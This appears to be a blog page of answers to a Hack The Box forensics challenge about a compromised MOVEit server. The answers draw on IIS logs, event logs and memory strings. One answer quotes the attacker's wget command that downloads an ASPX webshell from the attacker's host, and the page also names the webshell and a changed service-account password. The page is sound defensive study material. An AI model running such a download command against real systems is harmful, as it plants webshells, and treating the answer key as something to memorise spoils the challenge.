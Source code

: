 ### Question Answers

  1. Name of the ASPX webshell uploaded by the attacker?

`move.aspx` (IIS logs User Agent Analysis)

  2. What was the attacker’s IP address?

10.255.254.3 (IIS logs User Agent Analysis)

  3. What user agent was used to perform the initial attack?

Ruby (IIS logs User Agent Analysis)

  4. When was the ASPX webshell uploaded by the attacker?

12/07/2023 11:24:30 (MFT move.aspx)

  5. The attacker uploaded an ASP webshell which didn’t work, what is its filesize in bytes? 1362 (MFT moveit.asp)

  6. N/A

  7. Which tool did the attacker use to initially enumerate the vulnerable server?

`nmap` (IIS logs User Agent Analysis)

  8. We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC).

12/07/2023 11:09:27 (Event Logs Password Change)

  9. Which protocol did the attacker utilize to remote into the compromised machine?

RDP (Event Logs Login Events - Type 10)

  10. Please confirm the date and time the attacker remotely accessed the compromised machine?

12/07/2023 11:11:18 (Event Logs [Login Events - Type
10](typora://app/typemark/window.html#type-10))

  11. What was the useragent that the attacker used to access the webshell?

`Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0` (IIS
logs #user-agent-analysis)

  12. What is the inst ID of the attacker?

1234 (SQL Dump InstID, Metasploit Code Analysis)

  13. What command was run by the attacker to retrieve the webshell?

`wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx` (PS History Data,
vmem strings [move.aspx](moveaspx-1))

  14. What was the string within the title header of the webshell deployed by the TA?

awen asp.net webshell (vmem strings [move.aspx](moveaspx-1))

  15. What did the TA change the our moveitsvc account password to?

5trongP4ssw0rd (vmem strings Password Change)

[](/2023/11/17/htb-sherlock-i-like-to.html)

